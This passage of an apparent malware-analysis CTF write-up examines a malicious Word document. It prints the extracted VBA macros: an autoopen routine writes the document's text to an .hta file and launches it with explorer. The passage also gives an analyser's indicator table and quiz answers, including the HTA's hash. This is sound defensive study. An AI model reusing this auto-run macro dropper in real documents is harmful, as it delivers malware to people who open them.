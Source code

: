 ```
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO leftSize.bas 
in file: word/vbaProject.bin - OLE stream: 'VBA/leftSize'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub autoopen()
initVba
Shell "explorer collectionBoxConst.hta", vbNormalFocus
End Sub
-------------------------------------------------------------------------------
VBA MACRO arrayBBorder.bas 
in file: word/vbaProject.bin - OLE stream: 'VBA/arrayBBorder'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub initVba()
Open "collectionBoxConst.hta" & buttTemplateHeader For Output As #1
Print #1, ActiveDocument.Range.Text
Close #1
End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |autoopen            |Runs when the Word document is opened        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Output              |May write to a file (if combined with Open)  |
|Suspicious|Print #             |May write to a file (if combined with Open)  |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|vbNormalFocus       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |collectionBoxConst.h|Executable file name                         |
|          |ta                  |                                             |
+----------+--------------------+---------------------------------------------+

```
At autoopen(), the if user enable macro, it will run command like this.<br>
**Answer:** explorer collectionBoxConst.hta

## Q3. What is the HTML Application file's sha256 hash from previous question?
Use `sha256sum` to calculate value of .hta file.<br>
```
$ sha256sum collectionBoxConst.hta 
b25865183c5cd2c5e550aca8476e592b62ed3e37e6b628f955bbed454fdbb100  collectionBoxConst.hta
```
**Answer:** b25865183c5cd2c5e550aca8476e592b62ed3e37e6b628f955bbed454fdbb100
